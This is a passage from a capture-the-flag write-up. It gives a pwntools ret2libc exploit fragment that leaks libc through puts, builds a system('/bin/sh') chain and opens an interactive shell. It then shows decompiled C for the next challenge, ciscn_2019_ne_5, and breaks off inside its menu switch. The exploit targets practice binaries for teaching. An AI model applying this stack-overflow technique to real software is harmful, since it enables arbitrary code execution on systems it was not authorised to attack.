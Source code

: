 ```python
payload = 'a'*0x28+p64(pop_rdi_ret) + p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
sys_addr = base + libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
io.sendline(11)
ret = 0x4004c9
payload = 'a'*0x28+p64(ret)+p64(pop_rdi_ret) +p64(bin_sh)+ p64(sys_addr)
io.interactive()
```

## 0x13.ciscn_2019_ne_5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *v9; // [esp+F4h] [ebp-Ch]

  v9 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 48;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
```